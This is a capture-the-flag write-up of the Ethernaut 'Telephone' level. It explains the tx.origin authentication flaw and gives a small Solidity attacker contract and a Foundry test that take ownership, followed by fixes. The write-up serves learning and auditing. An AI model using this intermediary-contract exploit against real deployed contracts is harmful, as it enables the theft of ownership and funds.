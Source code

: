 # Level 4 - Telephone

## Objectives

- claim ownership of the contract

## Contract Overview

The `Telephone` contract is checking if the caller is a smart contract.

A `Telephone` contract has one function `changeOwner` that is publicly visibile and which allows any smart
contract to change the owner of the `Telephone` contract.

The contract is supposed to work as follows:

- Contract validates condition that checks if the `tx.origin` is not equal to `msg.sender`.
- If condition is true, then sets the new owner to the address passed in the function arguments.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

## Finding the weak spots

The `changeOwner` is responsible for the critical action of changing ownership.
However, it is not protected by any security checks (like `onlyOwner` modifier).
It allows anyone to change the owner of the smart contract which is probably not
intended.

The `Telephone` contract relies on the `tx.origin` which is prone to
[phishing attacks](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin).
It might also be
[removed in the future](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200),
which may result in compatibility issues.

The contract also does not emit events on
[the critical access control parameters](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control),
which makes it difficult to track the ownership changes off-chain.

In `Telephone` contract we have specific `tx.origin` that always refers to the original transaction sender.

Instead of using `tx.origin` we should always use `msg.sender`. The reason for that is `tx.origin` looks for full call chain and the owner can never be a contract while `msg.sender` looks for most recent call.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) { // <-- this line over here
      owner = _owner;
    }
  }
```

The function `changeOwner()` has public visibility which means that it can be called by anyone. It has a condition that checks if the `tx.origin` is not equal to `msg.sender`. If this is true, then sets the new owner to the address passed in the function arguments.

So to exploit this we just need to make sure that our `tx.origin` and `msg.sender` do not match when the instance receives the function call to `changeOwner()`.

To bypass this validation we can make use of a malicious intermediary contract (e.g: phishing attack) to call `changeOwner()` and pass the function checks.

## Potential attack scenario (hypothesis)

Attacker can create a malicious intermediary contract that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

## Plan of the attack

1. Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract.
2. This call (`attack()` function) invokes the `changeOwner()` function with attacker's address as an argument.
3. The ownership is claimed by attacker.

## Malicious contract (TelephoneAttack.sol)

Malicious contract has an `attack()` function that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone victimContract;

    constructor(address _victimContractAddress) public {
        victimContract = Telephone(_victimContractAddress);
    }

    function attack() public {
        victimContract.changeOwner(msg.sender);
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/04-Telephone.t.sol))

```solidity
        // Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract
        TelephoneAttack telephoneAttack = new TelephoneAttack(levelAddress);

        emit log_named_address(
            "Owner of contract before attack: ",
            telephoneContract.owner()
        );

        // `attack()` function invokes the `changeOwner()` function with attacker's address as an argument
        emit log_string("Eve calls the attack function...");
        telephoneAttack.attack();

        // The ownership is claimed by attacker
        emit log_named_address(
            "Owner of contract after attack: ",
            telephoneContract.owner()
        );

        // Test assertion
        assertEq(telephoneContract.owner(), attacker);

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone.png)

## Recommendations

1. The use of some form of access control is recommended. An example of that
   might be OpenZeppelin Ownable, which provides a basic access control mechanism
   or OZ AccessControl which provides role-based access control.
2. The use of `tx.origin` should be removed from the contract.
3. Emission of events should be added to the critical `changeOwner()` function.
   It will result in better communication with off-chain components and a better
   user experience overall.

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/4.-telephone-phising-with-tx.origin-used-instead-of-msg.sender

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
